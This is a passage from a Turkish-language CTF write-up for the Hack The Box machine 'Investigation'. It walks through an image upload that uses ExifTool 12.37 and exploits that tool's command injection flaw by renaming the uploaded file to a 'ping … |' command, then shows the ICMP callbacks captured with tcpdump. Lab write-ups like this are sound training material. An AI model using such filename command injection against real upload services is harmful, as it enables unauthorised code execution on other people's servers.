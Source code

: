 OpenSSH ve Apache versiyon bilgilerine göre muhtemelen Ubuntu Focal 20.04 çalışıyor.

`eforenzics.htb` adresini `/etc/hosts` dosyasına ekliyorum.

Vhost olabileceğini düşünerek bir tarama yaptım ve sonuç alamadım.

# <span style="color:#AA0E1C"><b># Enumeration</b></span>

## <span style="color:#0096FF">Web Sitesi - eforenzics.htb</span>

![https://i.ibb.co/pbYDXK4/image.png](https://i.ibb.co/pbYDXK4/image.png)

“Go!” butonu `/service.html` dosyasına gönderir. Başka şeyler bulmak umudu ile kaynak kodlara baktım ve dizin tarması yaptım, önemli bir şey bulamadım.

service.html dosyasında image upload kısmı var.

![https://i.ibb.co/bgtCHGG/image.png](https://i.ibb.co/bgtCHGG/image.png)

Dosya analizi için şu anlık image dosyalarını kabul ettiğini söylüyor.

Test etmek için bir jpg dosyası yükleyeceğim.

![https://i.ibb.co/zGSv5XR/image.png](https://i.ibb.co/zGSv5XR/image.png)

Dosya yüklendiğinde `/analysed_images/` dizini altında `<filename>.txt` adında bir rapor dosyası oluşturuluyor.

Bu dosyada `ExifTool Version:12.37` bilgisini görüyorum ve bununla ilgili bir araştırma yaptığımda command injection zafiyeti bulunduğunu görüyorum.

 

[Command Injection in Exiftool before 12.38](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)

# <span style="color:#AA0E1C"><b># Foothold - Shell as www-data</b>

Dosya upload ederken `burp suite` ile isteği durdurdum ve dosya ismini `ping -c 5 10.10.14.106 |` olarak değiştirdim.

Gelen ICMP paketlerini görebilmek için tcpdump çalıştırdım.

```bash
root@acivik:~/ctfs/Investigation-10.129.11.139# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
11:53:40.078325 IP eforenzics.htb > 10.10.14.106: ICMP echo request, id 2, seq 1, length 64
11:53:40.078346 IP 10.10.14.106 > eforenzics.htb: ICMP echo reply, id 2, seq 1, length 64
11:53:41.079052 IP eforenzics.htb > 10.10.14.106: ICMP echo request, id 2, seq 2, length 64
11:53:41.079090 IP 10.10.14.106 > eforenzics.htb: ICMP echo reply, id 2, seq 2, length 64
11:53:42.081111 IP eforenzics.htb > 10.10.14.106: ICMP echo request, id 2, seq 3, length 64
11:53:42.081133 IP 10.10.14.106 > eforenzics.htb: ICMP echo reply, id 2, seq 3, length 64
11:53:43.080198 IP eforenzics.htb > 10.10.14.106: ICMP echo request, id 2, seq 4, length 64
11:53:43.080287 IP 10.10.14.106 > eforenzics.htb: ICMP echo reply, id 2, seq 4, length 64
11:53:44.081116 IP eforenzics.htb > 10.10.14.106: ICMP echo request, id 2, seq 5, length 64
11:53:44.081145 IP 10.10.14.106 > eforenzics.htb: ICMP echo reply, id 2, seq 5, length 64
```
